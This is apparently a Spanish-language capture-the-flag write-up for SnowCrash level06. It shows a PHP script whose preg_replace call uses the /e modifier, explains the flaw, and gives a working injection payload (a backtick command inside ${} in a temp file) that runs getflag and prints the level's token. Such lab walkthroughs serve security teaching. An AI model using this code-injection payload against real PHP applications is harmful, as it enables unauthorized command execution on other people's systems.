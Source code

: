 # PHP Injection

al hacer `ls` encontramos un ejecutable level06 y un archivo .php que al abrirlo sael esto:
```
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

El cual lo que hace es busca patron [x..] y como tiene el /e intenta ejecutar el patron quje ha encontrado y si hay hace unios reemplazos y ya luego lo imprime.

${} en PHP permite evaluar expresiones dentro de una cadena cuando se usa en preg_replace('/e'), forzando su ejecución en lugar de tratarlo como texto.

Por lo tanto si hacemos:
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag.txt
level06@SnowCrash:~$ ./level06 /tmp/getflag.txt
```

Ejecuta el codigo y nos da la flag:
´´´
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
´´´